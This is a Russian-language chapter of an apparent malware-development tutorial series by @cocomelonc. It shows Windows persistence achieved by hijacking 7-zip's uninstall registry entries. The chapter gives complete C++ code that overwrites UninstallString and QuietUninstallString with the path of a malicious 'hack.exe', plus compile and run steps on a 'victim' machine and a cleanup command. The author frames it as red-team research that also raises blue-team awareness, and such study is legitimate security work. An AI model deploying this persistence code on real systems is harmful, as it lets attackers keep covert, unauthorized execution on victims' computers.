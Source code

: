 \newpage
\subsection{79. разработка вредоносного ПО: закрепление (persistence) - часть 13. Захват логики удаления приложения. Простой пример на C++.}

﷽

![pers](./images/73/2022-10-04_21-03_1.png){width="80%"}    

Этот пост является результатом моего собственного исследования одного из интересных трюков персистентности вредоносного ПО: через захват файла удаления целевого приложения.     

### процесс удаления

Когда вы устанавливаете программу в системе Windows, она обычно указывает на свой собственный деинсталлятор. Они находятся в следующих ключах реестра:    

`HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\<имя приложения>`    

и  

`HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\QuietUninstallString\<имя приложения>`     

Так в чем же трюк? Нет никаких проблем с их заменой на команды, которые могут запустить любую другую программу. Когда пользователь выполняет деинсталлятор, выполняется команда, выбранная атакующим. Опять же, хорошая новость заключается в том, что для изменения этих элементов требуются привилегии, так как они находятся под ключом `HKLM`.     

### практический пример

Рассмотрим практический пример. Во-первых, выберем целевое приложение. Я выбрал `7-zip x64`:    

![pers](./images/73/2022-10-04_20-13_1.png){width="80%"}    

![pers](./images/73/2022-10-04_20-15.png){width="80%"}    

![pers](./images/73/2022-10-04_20-15_1.png){width="80%"}    

Затем проверим значения ключей реестра на корректность:    

```powershell
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\7-zip" /s
```

![pers](./images/73/2022-10-04_20-08.png){width="80%"}    

Также я подготовил свое вредоносное приложение. Как обычно, это `meow-meow` "вредоносное ПО" :)    

![pers](./images/73/2022-10-04_20-10.png){width="80%"}    

Затем я создаю программу, которая выполняет мою логику для персистентности (`pers.cpp`):    


```cpp
/*
pers.cpp
windows persistence via
hijacking uninstall app
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/10/04/malware-pers-13.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // target app
  const char* app = 
  "SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Uninstall\\7-zip";

  // evil app
  const char* exe = 
  "C:\\Users\\User\\Documents\\malware\\2022-10-04-malware-pers-13\\hack.exe";

  // app
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)app, 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // update registry key value
    // reg add 
    //"HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Uninstall\
    // 7-zip" /v "UninstallString" /t REG_SZ /d "...\hack.exe" /f
    RegSetValueEx(hkey, (LPCSTR)"UninstallString", 0, REG_SZ, (unsigned char*)
    exe, strlen(exe));
    RegSetValueEx(hkey, (LPCSTR)"QuietUninstallString", 0, REG_SZ, 
    (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }

  return 0;
}
```

Как вы можете видеть, логика проста, мы просто обновляем целевые значения ключей в реестре.    

### демонстрация

Давайте посмотрим, как все работает на практике. Скомпилируем вредоносное ПО и скрипт персистентности:    

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/73/2022-10-04_20-09.png){width="80%"}    

И запускаем на машине жертвы — в моем случае `Windows 10 x64`:    

```powershell
.\pers.exe
```

![pers](./images/73/2022-10-04_20-59.png){width="80%"}    

Наконец, после перезагрузки системы попробовал удалить `7-zip`:    

![pers](./images/73/2022-10-04_20-13_1.png){width="80%"}    

![pers](./images/73/2022-10-04_20-15.png){width="80%"}    

![pers](./images/73/2022-10-04_21-01.png){width="80%"}    

![pers](./images/73/2022-10-04_21-03.png){width="80%"}    

Затем я посмотрел свойства `hack.exe` в Process Hacker 2:    

![pers](./images/73/2022-10-04_21-05.png){width="80%"}    

Как можно видеть, родительский процесс — `SystemSettings.exe`, который появляется при открытии настроек Windows. В нашем случае это "Добавление/Удаление программ". Идеально! =^..^=    

Есть небольшая загвоздка. Когда я попытался обновить ключ с путем `Z:\2022-10-04-malware-pers-13\hack.exe`, я получил ошибку:    

![pers](./images/73/2022-10-05_17-37.png){width="80%"}    

Возможно, можно использовать только пути внутри диска `C:\`.    

После завершения экспериментов очистка:    

```powershell
reg add \
"HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Uninstall\7-zip" \
/v "UninstallString" /t REG_SZ /d "C:\\Program Files\\7-zip\\Uninstall.exe" /f
```

![pers](./images/73/2022-10-05_17-50.png){width="80%"}    

### заключение

Конечно, возможно, этот трюк не так хорош для персистентности, так как он требует разрешений и участия пользователя-жертвы. Но почему бы и нет?    

Есть еще один трюк, связанный с установкой и удалением программ для персистентности, о нем я напишу в одном из будущих постов. Я все еще исследую эту возможность для red team.    

Надеюсь, этот пост повысит осведомленность синих команд об этой интересной технике и добавит оружие в арсенал красных команд.

[RegOpenKeyEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regopenkeyexa)    
[RegSetValueEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regsetvalueexa)    
[RegCloseKey](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regclosekey)    
[reg query](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/reg-query)      
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2022-10-04-malware-pers-13)     
